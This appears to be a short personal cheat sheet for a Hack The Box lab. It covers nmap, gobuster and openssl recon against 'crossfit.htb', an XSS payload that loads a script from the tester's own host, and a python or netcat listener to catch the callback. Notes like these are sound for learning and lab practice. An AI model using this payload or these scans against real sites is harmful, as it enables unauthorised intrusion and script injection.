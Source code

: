 ## Enumeration - Recon

Start with nmap always:
### nmap
```bash
sudo nmap -sC -sV -oA nmap/<folder> <IP>
```

### Create a Loot note
Gather random stuff like emails there

### SSL - to grap ssl certificates
This is useful to grap subdomains of the site.
```bash
openssl s_client -connect 10.10.10.208:21 -starttls ftp
```

### /etc/hosts - associate hostname with ip
```bash
sudo vim /etc/hosts
```
Then add the entries into it.

### Flameshot - to take print screens

### gobuster - run it on the website
```bash
# vhost signals virtual host discovery - if think there is more host
gobuster vhost -u http://crossfit.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -o gobuster/vhost.out

# directory enumeration for .php sites
gobuster dir -u http://gym-club.crossfit.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o gobuster/gym-club-root
```

## Cross site scripting

Find forms you can fill out.
```html
<script src="http://10.10.14.4/test.js"></script>
```

### Local web server
```bash
sudo python3 -m http.server 80
# or
sudo nc -nlvp 80
```




